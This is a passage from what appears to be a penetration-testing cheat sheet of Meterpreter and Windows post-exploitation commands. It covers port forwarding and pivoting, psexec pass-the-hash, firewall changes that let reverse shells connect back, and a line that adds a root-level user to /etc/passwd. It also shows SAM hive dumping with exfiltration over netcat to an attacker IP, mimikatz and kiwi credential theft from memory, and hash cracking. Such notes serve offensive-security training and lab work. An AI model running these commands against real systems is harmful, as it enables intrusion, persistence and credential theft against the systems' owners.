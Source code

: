 				ex. portfwd add -L 127.0.0.1 -l 2222 -r 192.168.200.69 -p 22 ; ssh user@localhost -p 2222
			Reverse (for intermediate reverse shell callback):  portfwd add -R -L 192.168.106.52 -l 9998 -p 9999  (reverse forward T2 9999 to T1 9998) (ran on T2)
				**portfwd add -R -L 127.0.0.1 -l RHP1 -r 192.168.106.52 -p RHP2  (run on meterp session of .106.52 box)
					**-r can be the listening box interface, or the box that will connect to it
				ex. portfwd add -R -L 127.0.0.1 -l 8888 [-r 192.168...] -p 9999    (forwards [192.168... interface on victim] 9999 to my 8888)
		run autoroute -s 10.1.13.0/24   -  then attack directly in MSF  (help: run autoroute -h)
		*Add Route (within MSF):  background; route add 192.168.0.0 255.255.255.0 <session_id>
		PSExec/PTH (port 445):  use exploit/windows/smb/psexec  \\  use admin/smb/psexec_command (stealthier)
			*Note: psexec uses powershell, so logging may be active; ****MAKE SURE TO USE PAYLOAD WITH PSEXEC--otherwise will try to connect directly to attack box
			Enable Firewall to Connect Back through:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'          
	Firewall Modifications:
	    Unix:
		sudo iptables -A INPUT -p tcp --dport 22 -s 192.168.11.13 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
	    Windows:
		New Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'
			Delete:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall delete rule name=RDP'
		Modify Existing Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall set rule name=callforhelp new remoteip=any'

## Persistence/Credentials:

    Unix:
        Add User:  echo root2:w08rKyoC9ECsg:0:0:/root:/bin/bash >> /etc/passwd     #password
        cat /etc/passwd /etc/shadow

    Windows:
    	Post-Exploitation Metasploit Modules:  https://www.infosecmatter.com/post-exploitation-metasploit-modules-reference/
        Credentials:
            SAM Files:
                Dump (if admin):  reg save hklm\sam c:\sam, reg save hklm\system c:\system,  and transfer back:  nc64.exe 10.10.14.18 4445 < SAMS   ,  nc -nvlp 4445 > SAMS
                Decrypt (Unix):  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM [ip]
                Decrypt (Windows):  mimikatz.exe; privilege::debug; token::elevate; lsadump::sam filename1.hiv filename2.hiv
                Crack:  hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
            Meterpreter:  
	    	hashdump  \\  Better:  run hashdump \ run post/windows/gather/smart_hashdump
	    		john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
			use auxiliary/analyze/jtr_crack_fast
		GPO creds:  use post/windows/gather/credentials/gpp, set ... DOMAINS=BOOT SESSION=#
	   	run credcollect
	    	steal_token <PID> / drop_token
            Mimikatz: pull credentials from memory
                Local:  mimikatz.exe; privilege::debug; sekurlsa::logonpasswords full  \\  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
                    In Meterpreter:  load mimikatz; msv  \\  creds_all  \\  kerberos  \\  mimikatz_command -f samdump::hashes  \\  mimikatz_command -f sekurlsa::searchPasswords  \\  execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m
                	Option 1: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
			Option 2: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"
		From LSASS dump: